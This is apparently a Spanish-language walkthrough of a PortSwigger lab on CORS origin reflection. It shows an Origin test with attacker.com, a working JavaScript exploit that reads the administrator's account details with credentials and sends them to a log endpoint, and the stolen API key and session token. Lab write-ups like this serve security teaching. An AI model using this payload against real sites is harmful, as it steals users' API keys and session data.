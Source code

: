 # Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirmá que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = function() {
        location = '/log?data=' + this.responseText;
      };
      req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
      req.withCredentials = true;
      req.send();
    </script>
  </body>
</html>

```

Simulamos levantar nuestro servidor de atacante accediendo al botón `Go to exploit server`, ahí pegamos nuestr script que simula el desarrollo de una página que produce el exploit. Primero hacemos click en `Store` y luego en `Send exploit to victim`.

Accedemos a los logs mediante el botón `Access log:
![image](https://github.com/user-attachments/assets/d3f13ff5-7bf3-4a48-809b-4235e4025c5f)

Obtenemos la información del usuario administrator:
```http
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5%22,%20%20%22sessions%22:%20[%20%20%20%20%22imTj0ZUcHiYgBJZHW1O7PrOQLZkA4Qyk%22%20%20]}
```









